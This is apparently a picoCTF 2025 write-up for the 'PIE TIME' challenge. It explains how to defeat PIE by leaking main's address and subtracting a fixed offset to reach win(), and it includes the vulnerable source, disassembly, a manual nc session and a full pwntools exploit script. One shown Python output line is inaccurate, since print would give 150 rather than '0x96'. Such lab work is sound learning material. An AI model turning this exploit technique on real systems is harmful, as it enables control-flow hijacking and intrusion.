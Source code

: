 # PIE TIME - PicoCTF 2025

**Category:** Binary Exploitation  
**Difficulty:** Easy  
**Tags:** PIE, Offset Calculation, pwntools, pwndbg

---

## Challenge Description

> Can you try to get the flag? Beware we have PIE!
>
> Files provided:
> - `vuln` (binary)
> - `vuln.c` (source code)
> - Remote instance: `nc rescued-float.picoctf.net <port>`

> <details>
>   <summary>Hints</summary>
>   Can you figure out what changed between the address you found locally and in the server output?
> </details>

---

## Initial Analysis

Upon reading the description and reviewing the source code, it's clear that:

- PIE (Position Independent Executable) is enabled

> PIE, or Position Independent Executable, randomizes the base address of the binary at runtime, meaning absolute addresses change every run. This prevents us from hardcoding the address of win(). However, offsets between functions remain constant because they are relative to the PIE base.

---

## Source Code Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

### Key Observations

- The program directly prints the address of `main()` at runtime
- The program allows arbitrary function pointer execution by letting us input any address to call
- PIE randomizes base addresses, but internal offsets remain constant
- The `win()` function reads and prints the flag if executed

---

## Static Binary Analysis

We analyze the binary with pwndbg to find the static offset between main() and win():

```sh
$ pwndbg ./vuln           
[snip...]
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000000133d <+0>:     endbr64
[snip...]
pwndbg> disassemble win
Dump of assembler code for function win:
   0x00000000000012a7 <+0>:     endbr64
[snip...]
```

### Offset Calculation

```
$ python3
>>> main_addr = 0x133d  
>>> win_addr  = 0x12a7  
>>> offset = main_addr - win_addr
>>> print(offset)
0x96
```

**The key realization is that this offset remains fixed regardless of PIE randomization.**

---

## Exploitation

### Plan

1. Leak the runtime address of main() (given).
2. Subtract 0x96 to calculate the runtime address of win().
3. Input this address and trigger execution

### Manual Exploitation

```
$ nc rescued-float.picoctf.net <port>

Address of main: 0x613514f6433d
Enter the address to jump to, ex => 0x12345: 0x613514f642a7
Your input: 613514f642a7
You won!
picoCTF{<redacted>}
```

### Automated Exploitation with pwntools

```python
from pwn import *
import sys

if len(sys.argv) != 2:
  print(f"Usage: {sys.argv[0]} <port>")
  sys.exit(1)

host = 'rescued-float.picoctf.net'
port = int(sys.argv[1])

conn = remote(host, port)

# Parse leaked address of main
leak_line = conn.recvline().decode().strip()
main_addr = int(leak_line.split(": ")[1], 16)

# Offset from static analysis
offset = 0x96
win_addr = main_addr - offset

# Send calculated win address
conn.sendline(hex(win_addr))

# Receive flag
conn.recvuntil(b"You won!\n")
print(conn.recvall().decode())
```

---

## Key Takeaways
- PIE randomizes binary base addresses but not relative offsets
- Leaking function addresses enables reliable exploitation via offset calculation
- pwndbg are essential tools for static binary analysis
